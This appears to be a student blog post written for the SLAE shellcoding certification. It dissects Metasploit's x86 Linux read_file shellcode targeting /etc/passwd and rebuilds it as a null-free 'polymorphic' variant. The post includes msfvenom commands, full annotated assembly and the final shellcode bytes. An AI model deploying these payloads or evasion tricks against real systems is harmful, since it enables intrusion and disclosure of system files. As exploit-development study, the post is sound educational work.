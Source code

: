 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

## Disassembled Assembly

```assembly
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.



## Disassembled (UPDATED)

Here I have cleaned and commented the code, as well as put it in a .nasm format.

I noticed there were a lot of null bytes in the shellcode generated from msfvenom, so my polymorphic code revolves around removing those null bytes.

The first substitution I made is replacing an `xor` with a `sub` to zero out the `ecx` register. Note that this strategy may not work with all CPUs.

```assembly
; xor ecx,ecx     ; replace xor instruction
sub ecx,ecx
```

Next, the original shellcodes does the jmp, call, pop technique to get a pointer to a string. The string is the filename to be read. In this case, I want to remove null bytes from my shellcode, thus I will push values to the stack and move the stack pointer into my register. To push the string terminating null, I will load the string "/etc//passwd" onto the stack and get a pointer to it's address.

```assembly
; pop ebx         ; <addr> 0x3D (filename from stack)
xor ebx, ebx
push ebx
push 0x64777373         ; "dwss"
push 0x61702f2f         ; "ap//"
push 0x6374652f         ; "cte/" 
mov ebx, esp
```

Note that I have pushed an entire dword of `0x00000000` to the stack as a string terminator by the `push ebx` instruction. Interestingly, I tried to rewrite this to push only a single `0x0` to the stack. I ended up with this code that will essentially load a `0xff` into `ebx` that will be shifted out for a null and placed onto the stack as a null terminator.

```assembly
mov ebx, 0x647773ff  
shr ebx, 0x8
push ebx
push 0x7361702f         
push 0x6374652f         

mov ebx, esp
```

Unfortunately, this is an extra byte in length than the alternative solution above, so I opted not to use it. But it was fun to work with the `shr` instruction and get another polymorphic variation working.

Then, I change the `mov, 0x3` with an `xor` to clear the register and `mov al, 0x3` to move the value of 3 into the register without having zeros in the shellcode.

```assembly
; mov eax,0x3     ; read()
xor eax, eax
mov al, 0x3
```

Similar to the above strategy, I remove a `mov edx, 0x1000` with a `mov dh, 0x10` to remove nulls in the shellcode and have the same result.

```assembly
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
```

I again use the same trick as before to replace the `mov eax, 0x4` instruction:
   
```assembly
; mov eax,0x4     
xor eax, eax
mov al, 0x4 
```
   
And again with ebx. Except this time since I need a value of 1 in the register, I will use the `inc` instruction to increment it after setting it to 0x0.

```assembly
; mov ebx,0x1     ; 1 = stdout (where to write output)
xor ebx, ebx
inc ebx
```

I do the same thing for the eax register later in the assembly code.

```assembly
; mov eax,0x1 
xor eax, eax
inc eax
```

I then replace a `mov ebx, 0x0` with an `xor` to remove null bytes in this instruction.

```assembly
; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
xor ebx, ebx
```

And that's it for the changes.

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the final `.asm` code. I have left the instructions I replaced commented out.

```assembly
global _start

section .text
_start:
    ;mov eax, 0x5
    push 0x5
    pop eax


    ; pop ebx         ; <addr> 0x3D (filename from stack)
    xor ebx, ebx
    push ebx
    push 0x64777373         ; "dwss"
    push 0x61702f2f         ; "ap//"
    push 0x6374652f         ; "cte/" 
    mov ebx, esp

    ; xor ecx,ecx     ; replace xor instructions
    sub ecx,ecx
    int 0x80        ; call open() 

    mov ebx,eax     ; ebx now holds file descriptor

    ; mov eax,0x3     ; read()
    xor eax, eax
    mov al, 0x3
                    ; man 2 read
                    ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     
    mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
    int 0x80        ; call read()

    mov edx,eax     ; edx holds number of bytes returned from read()

    ; mov eax,0x4     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 4$"
    xor eax, eax
    mov al, 0x4 
                    ; write()
                    ; man 2 write
                    ; ssize_t write(int fd, const void *buf, size_t count);
    ; mov ebx,0x1     ; 1 = stdout (where to write output)
    xor ebx, ebx
    inc ebx

    int 0x80        ; call write() 
                    ; NOTE: ecx still points to stack (buffer to write)

    ; mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
    xor eax, eax
    inc eax

                    ; man exit
                    ; void exit(int status);
    ; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
    xor ebx, ebx

    int 0x80        ; call exit()
```

## New Shellcode

```c
"\x6a\x05\x58\x31\xdb\x53\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x29\xc9\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe7\x89\xf9\xb6\x10\xcd\x80\x89\xc2\x31\xc0\xb0\x04\x31\xdb\x43\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80"
```


## Conclusion

Metasploit payload was 73 bytes with nulls.

My new shellcode is 59 bytes without nulls.



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

